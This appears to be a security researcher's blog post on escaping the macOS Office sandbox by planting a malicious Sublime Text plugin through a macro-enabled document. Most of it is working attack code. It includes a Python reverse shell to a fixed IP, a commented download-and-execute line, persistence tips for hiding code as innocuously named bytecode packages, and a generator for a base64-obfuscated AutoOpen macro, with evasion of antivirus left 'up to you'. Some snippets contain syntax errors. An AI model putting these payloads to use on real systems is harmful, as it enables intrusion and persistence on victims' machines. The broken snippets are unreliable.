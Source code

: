 ```yaml
---
title: "A Sublime Office Sandbox Bypass"
date: 2020-10-21T19:44:32-07:00
---
```


If an unwitting user runs a malicious macro-enabled document on a macOS system that has Sublime Text installed, an attacker can seamlessly escape the Office sandbox.

In effect
1. The MS Office sandbox allows writing files to arbitrary locations as long as they begin with `~$`, with some exceptions
2. The Sublime Text editor automatically loads (outside the sandbox) Python plugins from a user writable file path

After reading Patrick Wardle's [Office Drama on macOS](https://objective-see.com/blog/blog_0x4B.html) which outlined a persistence method leveraging a sandbox escaped discovered by Adam Chester (see [Escaping the Microsoft Office Sandbox](https://objective-see.com/blog/blog_0x35.html)), I did some rudimentary experimenting. Recent patches have precluded directly writing to `LaunchAgents` or `Application Scripts` but files can still be written to other user writable paths as long as they start with `~$`.

There are likely a plethora of creative options but having Sublime Text installed I found a nice option for escaping the Office sandbox. Feel free to skip to the end if you're not interested in the Sublime Plugin aspect.

I'm certainly not the first to leverage Sublime for persistence. Prior art by [theevilbit](https://theevilbit.github.io/posts/macos_persisting_through-application_script_files/) is worth a quick read and that post goes into persisting in Python imports and others applications. Leo Pitt also outlined its usage with JXA and Apfell [here](https://posts.specterops.io/persistent-jxa-66e1c3cd1cf5). That post also covers some good detection method as well.

## Sublime Text Packages
Sublime leverages Python for its plugin ecosystem. If you have the permissions to edit files in `C:\Program Files\`, you can simply edit `sublime.py` or `sublime_plugin.py` for your persistence needs. When Sublime next starts, your code will run. If Sublime is already running, you can call `c:\Program Files\Sublime Text 3\subl.exe <sublime pid>` and it will reload those files.

But maybe you can't write to `C:\Program Files` or want to keep things a bit more covert. If you can write to `%APPDATA%\Sublime Text 3\Packages\` or `$HOME/Library/Application Support/Sublime Text 3/Packages/` you can create a plugin to help you out.

In the Packages directory, create a file `package-control.py` or other innocuously named file. It can be any Python code, but if you want to play nice with Sublime, the following template will work.
```python
import sublime, sublime_plugin, os;

def plugin_loaded():
  os.system('open -a /Applications/Calculator.app')
```
This creates and automatically loads the new plugin. Newer versions appear to execute the plugin the moment it's saved but older versions may need reloaded with `subl` or `subl.exe` commands with the `-b` option to run in the background.

### Creating Binary Packages
If you would like to keep your Python persistence one level beyond prying eyes, create a `.sublime-package` file, which is basically a zip file of python bytecode. [Package Control](https://packagecontrol.io/) is the package manager for Sublime Text and will do this for you. To create a new package, first Install Package Control: `Cmd + Shift + P` > `Install Package Control`.

Package Control expects a folder under Packages so create that first.

`mkdir ~/Library/Application Support/Sublime Text 3/Packages/legitimate`

Then add your benign python code to that folder.

```bash
cat > ~/Library/Application Support/Sublime Text 3/Packages/legitimate.py << EOF
import socket, subprocess, os;
s=socket.socket(socket.AF_INET,so.SOCK_STREAM);
s.connect(("172.16.1.1",8080));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);');
EOF
```
Now in Sublime Text, `Ctrl + Shift + P` > Create Package > legitimate > Default

And your new package file will be at `~/Desktop/test.sublime-package`. 

This file can now be copied to `~/Library/Application Support/Sublime Text 3/Installed Packages/` or `%APPDATA%\Sublime Text 3\Installed Packages\` where Sublime will automatically pick it up and run your code.

> Note: I did run into some issues with Package Control not compiling my code on macOS, but manually compiling before creating the package seemed to get things working.
> ```bash
> % cd ~/Library/Application Support/Sublime Text 3/Packages
> % python -m compileall legitimate.py
> % rm legitimate.py #YMMV
> ```

## Macros
So how do we leverage all that to seamlessly escape the Office sandbox? The following code snippet is sufficient to have Sublime execute Python of our choosing outside the sandbox. Or rather than the code snippet, copy the binary sublime-package file to the `Installed Packages` to provide some obfuscation.

```python
import os

forsublime = '''
import os
os.system('open -a /Applications/Calculator.app')
#os.system('curl example.com/malware' && chmod +x malware && ./malware')
'''

# the above is saved to the Office sandbox
with open('legitimatefile.txt', 'w') as f:
	f.write(forsublime)

# and we copy it to Sublime's plugin folder
os.system("cp legitimatefile.txt /Users/$USER/Library/Application Support/Sublime Text 3/Installed Packages/~\$legitimate_plugin.sublime-package")

# if Sublime isn't running, help the user out
os.system("open -a /Application/Sublime Text.app")
```

And the following helper function makes it easy to drop that into a macro.

```python
import base64

e = base64.b64encode(abovepythoncode)
p = "echo \"import base64, exec(base64.b64decode('{}'));\" | /usr/bin/python &".format(e)
out = base64.b64encode(p)
n = 42
macro = []

for i in range(0,len(out), n):
    if i == 0:
        macro.append("str = \"%s\"" % out[i:i+n])
    else:
        macro.append("str = str + \"%s\"" % out[i:i+n])

print('''Sub AutoOpen()
Dim Str
{}
MacScript "do shell script \\""echo" & Str & "\\"" | /usr/bin/base64 -D | /bin/bash"" "
End Sub
''').format("\n".join(macro))

```

Leaving you with something like the following. AV and EDR avoidance obviously up to you.
```
Sub AutoOpen()
Dim Str
str = "ZWNobyAiaW1wb3J0IGJhc2U2NCwgZXhlYyhiYXNlNj"
str = str + "QuYjY0ZGVjb2RlKCdhVzF3YjNKMElHOXpDbVp2Y25O"
str = str + "MVlteHBiV1VnUFNBbkp5Y0thVzF3YjNKMElHOXpDbT"
str = str + "l6TG5ONWMzUmxiU2duYjNCbGJpQXRZU0F2UVhCd2JH"
str = str + "bGpZWFJwYjI1ekwwTmhiR04xYkdGMGIzSXVZWEJ3Sn"
str = str + "lrS0p5Y25DbmRwZEdnZ2IzQmxiaWduYkdWbmFYUnBi"
str = str + "V0YwWldacGJHVXVkSGgwSnl3Z0ozY25LU0JoY3lCbU"
str = str + "9nb2dJQ0FnSUNBZ0lHWXVkM0pwZEdVb1ptOXljM1Zp"
str = str + "YkdsdFpTa0tDbTl6TG5ONWMzUmxiU2dpWTNBZ2JHVm"
str = str + "5hWFJwYldGMFpXWnBiR1V1ZEhoMElDOVZjMlZ5Y3k4"
str = str + "a1ZWTkZVaTlNYVdKeVlYSjVMMEZ3Y0d4cFkyRjBhVz"
str = str + "l1SUZOMWNIQnZjblF2VTNWaWJHbHRaU0JVWlhoMElE"
str = str + "TXZTVzV6ZEdGc2JHVmtJRkJoWTJ0aFoyVnpMMzVjSk"
str = str + "d4bFoybDBhVzFoZEdWZmNHeDFaMmx1TG5OMVlteHBi"
str = str + "V1V0Y0dGamEyRm5aU0lwQ2c9PScpKTsiIHwgL3Vzci"
str = str + "9iaW4vcHl0aG9uICY="
MacScript "do shell script \""echo" & Str & "\""|base64 -D|bash"" "
End Sub
```
